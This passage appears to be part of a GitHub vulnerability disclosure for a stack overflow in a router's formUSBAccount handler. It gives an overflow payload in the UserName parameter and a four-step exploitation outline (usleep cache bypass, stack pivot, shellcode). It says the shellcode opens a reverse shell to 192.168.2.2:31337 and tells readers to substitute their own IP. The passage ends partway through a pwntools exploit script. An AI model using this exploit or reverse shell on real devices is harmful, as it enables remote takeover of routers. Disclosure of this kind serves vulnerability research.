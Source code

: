 ```python
editFolder=1&UserName=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

```

## Exploit

Execute arbitrary code through stack overflow. The following is the exploitation process.

1. Bypass cache coherence through calling ```usleep```.
2. Putting the stack pointer into the stack.
3. Adjusting the stack pointer.
4. Executing shellcode.

![](https://github.com/countfatcode/temp/blob/main/formUSBAccount/screenshot/6.png)

Note: Most routers have ASLR disabled, so we can obtain the ```libc_base``` through debugging. Shellcode reverse connect to 192.168.2.2:31337, please replace it with your ip address. Refer to https://shell-storm.org/shellcode/files/shellcode-860.html for shellcode generation.

```python
import struct
import requests
import urllib
import socket

from pwn import *

context(arch='mips', bits=32, endian='little')

session = requests.Session()
session.verify = False

headers = {
```